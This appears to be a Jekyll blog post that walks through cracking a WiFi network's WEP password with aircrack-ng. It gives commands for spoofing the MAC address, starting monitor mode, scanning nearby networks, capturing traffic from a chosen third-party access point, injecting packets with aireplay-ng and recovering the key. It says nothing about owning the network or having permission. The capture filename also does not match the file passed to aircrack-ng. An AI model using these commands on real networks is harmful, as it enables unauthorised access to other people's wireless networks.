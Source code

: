 ```yaml
---
layout: post
title: "Crack WIFI network's WEP password with Aircrack"
description: "How to crack a WIFI network's WEP password with Aircrack suite"
redirect_from: /article/crack-wifi-network-s-wep-password-with-aircrack/
locale: en
---
```


The first step is to <a href="http://www.aircrack-ng.org/doku.php?id=downloads&DokuWiki=d66620079141170d5df90612b298008d">download</a> the Aicrack-ng suite.

In order to decrypt the WEP key we have to follow the next simple steps:

First, change your hardware address (MAC):

{% highlight bash %}
# ifconfig wlan0 down
# ifconfig wlan0 hw ether 00:11:22:33:44:55
{% endhighlight %}

Now, start package monitoring in the wifi interface (for ex: wlan0), for it, we have to use airmon-ng tool:


    # airmon-ng start wlan0

At this point we need the data necessary to attack the interested network, we will obtain it with:


    # airodump-ng wlan0

It will prompt something like this:
<img src="/uploads/images/full/bbdd5069a2c63a3aabf9b2ad26df7d528c53c542.png" alt="" />
This step is only to get the information to attack the net. From all the networks, probably the best choose will be the one with the less power (PWR column). Once we have chosen one of those, we have to remember the blue data, the **BSSID** (MAC address of the Access point), **PWR** (Power of the signal), **CH** (Channel of the network), **ENC** and **CIPHER** (Network security type) and **ESSID** (Access Point name).

Once we have all the data needed to crack the wifi we can start sniffing packages of the interested network. In our case we have selected "WLAN_DF", in channel 2 with BSSID 00:23:F8:A0:C4:A2:


    # airodump-ng -c 2 -w packages --bssid 00:23:F8:A0:C4:A2 wlan0

At this point we only have to wait to collect about 20000 - 40000 packages, it depends from the network use.

### Optional, package injection
If our wifi driver supports package injection we can increase the speed of package collection using the aireplay-ng tool. The use of it is:

{% highlight bash %}
# aireplay-ng -1 0 -a 00:23:F8:A0:C4:A2 -h 00:11:22:33:44:55 -e WLAN_DF wlan0
# aireplay-ng -3 -b 00:23:F8:A0:C4:A2 -h 00:11:22:33:44:55 wlan0
{% endhighlight %}

### Getting the network key
Once recollected a good amount of packages (20000 - 40000) we can try to decrypt the key with the final tool, aircrack-ng:


     # aircrack-ng paquetes-01.cap
